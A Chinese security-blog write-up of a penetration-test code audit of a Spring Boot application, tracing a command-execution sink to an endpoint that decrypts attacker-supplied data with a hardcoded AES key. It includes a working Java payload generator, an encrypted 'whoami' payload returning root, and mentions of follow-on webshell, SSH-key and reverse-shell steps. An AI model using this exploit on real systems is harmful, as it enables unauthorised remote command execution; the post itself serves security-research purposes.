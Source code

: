 

# 记一次实战快速的代码审计 - 先知社区

记一次实战快速的代码审计

- - -

# 0x00 前记

最近的一次渗透项目中，获取到某系统的源码和系统管理员登录密码

[![](assets/1701678514-4e97d65b73d7c48c7a1d138d7c8555cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152630-9dc17b78-8e88-1.png)

# 0x01 快速审计

## 代码执行 1

通过项目结构，发现用的技术还是比较新的，整体架构是 springboot+mybatis，fastjson 等版本也是比较新，因为涉及到了公式计算、数据分析，所以还用到了 Scala，个人对 Scala 语言只是简单的使用过，暂时略过

[![](assets/1701678514-08181037caa1bd8778c7bbd910684be5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152820-df370582-8e88-1.png)

[![](assets/1701678514-d8658b4de7058c80c69f33fd2b8a32f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129154755-9bc34768-8e8b-1.png)

根据审 OA 漏洞的经验，猜测公式计算可能存在漏洞，找到对应的接口，这里有个 FlowScriptCompiler.getClass�(className�)，通过上下代码，发现还是挺麻烦的，首先需要先上传脚本规则文件，然后进行编译，最后再 execute 执行

这里尝试新增规则脚本，虽然后台返回成功信息，但是最后 execute 失败了，需要真实环境调试看看吧，暂时先不看这个点

[![](assets/1701678514-1387509d575042569b0bcff47d9c550d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152924-058822ca-8e89-1.png)

## 代码执行 2

通过全局搜索污点函数，发现存在 ProcessBuilder 命令执行的点�，这里可以执行命令，然后将结果使用 convertStreamToStr 方法�返回，可能可以造成回显 RCE

[![](assets/1701678514-18d9adceb51605369c4b35d5c28e426c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153007-1eeb1402-8e89-1.png)  
往前搜索 execute�方法，发现有三处地方使用到了  
[![](assets/1701678514-16829e75428fb1d66ec52fa09b95e195.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153034-2f3354aa-8e89-1.png)

第一处：先看这个/src/main/java/com/xxrule/flowrule/arch/EnvChecker.java#\_check，这里的方法，codeStr 不可控  
[![](assets/1701678514-92f1fe7c7de2beedcc3c342484352958.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153152-5d47d672-8e89-1.png)

第二处：/src/main/java/com/xxrule/flowrule/utils/ProcessUtil.java#main，测试方法，同样不可控�  
[![](assets/1701678514-e4cb9eab557f23eee134d51fa262e39a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153224-708561c8-8e89-1.png)

剩下就只有/src/main/java/com/xxrule/data/service/impl/DepotSynchroServiceImpl.java

sync 方法�接受一个 DepotSynchroDto 对象，然后使用 DataStrUtil.deCryptAndDecode��（代码在下图）解密 data 数据，解密首先会使用 base64 进行解码，然后使用 AES 再解一次得到 data 对象

data 对象用 fastjson 转成 JSONObject 的对象，然后判断�JSONObject 是否存在 sh 的 key，如果存在，继续解析 sh 对象下面的 shells 数组，最后使用�ProcessUtil.execute(sh, charset);�执行 shell  
[![](assets/1701678514-e899b9d899608f83f8cb731e5191cef5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153330-9807738a-8e89-1.png)

deCryptAndDecode 方法代码

[![](assets/1701678514-be7e6a87083538b666d148912dc40cd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153354-a5efe932-8e89-1.png)

实现类基本分析完了，我们继续搜索调用 sync 方法，发现有两处 controller 接口使用到这个方法

[![](assets/1701678514-dd6e74bc653be6f2f6c8a7df09e135f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153406-ad9da9b2-8e89-1.png)

第一处：/src/main/java/com/xxxrule/data/controller/DepotSynchroContorller.java#sync

[![](assets/1701678514-3a5b3621d5acf7eba37924a65d014c3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153439-c1238344-8e89-1.png)

第二处：/src/main/java/com/xxxrule/flowrule/controller/RuleSceneController.java#params

[![](assets/1701678514-d5b0d42907bea9b33e4a6a0648bcba07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153504-cfbe8cdc-8e89-1.png)

这两个地方都可以 RCE，相对来说，sync 接口没有那么多的条件判断，可以直接构造请求对象，写一个代码生成 payload

```bash
import org.apache.commons.codec.binary.Base64;

import javax.crypto.Cipher;
import javax.crypto.KeyGenerator;
import javax.crypto.SecretKey;
import java.security.SecureRandom;

public class Test {
    public static void main(String[] args) throws Exception {


        //生成shell执行命令加密数据
        byte[] sourceBytes = enCryptAndEncode("{\n" +
                "  \"sh\": {\n" +
                "    \"shells\": [\n" +
                "      \"bash\",\n" +
                "      \"-c\",\n" +
                "      \"whoami \"\n" +
                "    ]\n" +
                "  },\n" +
                "  \"charset\": \"utf-8\"\n" +
                "}");
        System.out.println(Base64.encodeBase64String(sourceBytes));


        //解密数据包
        System.out.println((deCryptAndDecode("")));

    }

    /**
     * AES加密
     *
     * @param content
     * @return
     * @throws Exception
     */
    public static byte[] enCryptAndEncode(String content) throws Exception {
        String strKey = "mysecuritykey";
        KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");
        SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
        random.setSeed(strKey.getBytes());
        keyGenerator.init(128, random);

        SecretKey desKey = keyGenerator.generateKey();
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.ENCRYPT_MODE, desKey);
        return cipher.doFinal(content.getBytes("UTF-8"));
    }

    public static String deCryptAndDecode(String content) {
        byte[] targetBytes = Base64.decodeBase64(content);
        try {
            return deCryptAndDecode(targetBytes);
        } catch (Exception e) {
            return "";
        }
    }


    /**
     * AES解密
     *
     * @param src
     * @return
     * @throws Exception
     */
    public static String deCryptAndDecode(byte[] src) throws Exception {
        String strKey = "mysecuritykey";
        KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");
        SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
        random.setSeed(strKey.getBytes());
        keyGenerator.init(128, random);

        SecretKey desKey = keyGenerator.generateKey();
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.DECRYPT_MODE, desKey);
        byte[] cByte = cipher.doFinal(src);
        return new String(cByte, "UTF-8");
    }
}
```

生成执行 whomai 命令的数据：ZOxX3QMOwuTSJlkTz5LWdF3Yb0ZFvIXFVb/Iqr5Eu9ysyYwlD/DokMU8g09jfQL0KsPIxO3HlF9SiOSTaVyCPsmIq7eJ7YGOTj9kvYnjFz235gn1jBu7WdC5Tb4wtrsNAXTzc1nZZv1xh0sTGlQgcg==

发送对应的数据包，返回的 data 是 lBBVygQE6Te6euV1IGk/5WLTeEY4WW3o7LGCpYlGO8o=

[![](assets/1701678514-168660c0ded206a9eb92062143e87eff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129154410-1566c6d6-8e8b-1.png)

可以通过解密方法进行解密，返回数据是 root，因为是 SpringBoot 项目，后续可以注入内存马、写 ssh key、反弹 shell 等

[![](assets/1701678514-e1840023fc86af0ad76b6829d3c2a791.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129153710-1b2de820-8e8a-1.png)

# 0x02 总结

1.  在项目时间短、任务重的情况下，代码审计还是得有耐心，不能放过每一个 sink 点，可以充分利用代码审计自动化工具，提升审计效率
2.  通过前端界面可以快速熟悉了解系统的功能特性，利用审计经验，可以猜测某些功能点可能存在漏洞
3.  一些行业会有到数据分析的业务需求，往往会使用 Spark 框架�、Scala 语言、R 语言...等进行数据处理，这一块可以尝试学习
